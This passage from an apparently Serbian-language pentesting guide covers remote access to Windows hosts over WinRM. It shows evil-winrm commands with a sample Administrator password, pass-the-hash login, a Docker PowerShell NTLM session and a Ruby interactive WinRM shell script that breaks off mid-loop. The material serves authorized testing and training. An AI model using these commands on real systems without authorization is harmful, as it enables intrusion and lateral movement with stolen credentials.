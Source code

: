 ```ruby
gem install evil-winrm
```
Pročitajte **dokumentaciju** na svom github-u: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
```ruby
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```
Da biste koristili evil-winrm za povezivanje na **IPv6 adresu**, kreirajte unos unutar _**/etc/hosts**_ postavljajući **domen** na IPv6 adresu i povežite se na tu domenu.

### Prosledi hash sa evil-winrm
```ruby
evil-winrm -u <username> -H <Hash> -i <IP>
```
![](<../images/image (680).png>)

### Korišćenje PS-docker mašine
```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```
### Korišćenje ruby skripte

**Kod preuzet odavde:** [**https://alamot.github.io/winrm_shell/**](https://alamot.github.io/winrm_shell/)
```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt
# https://alamot.github.io/winrm_shell/


conn = WinRM::Connection.new(
endpoint: 'https://IP:PORT/wsman',
transport: :ssl,
user: 'username',
password: 'password',
:no_ssl_peer_verification => true
)


class String
def tokenize
self.
split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
select {|s| not s.empty? }.
map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
end
end


command=""
file_manager = WinRM::FS::FileManager.new(conn)


conn.shell(:powershell) do |shell|
until command == "exit\n" do
output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
print(output.output.chomp)
command = gets
```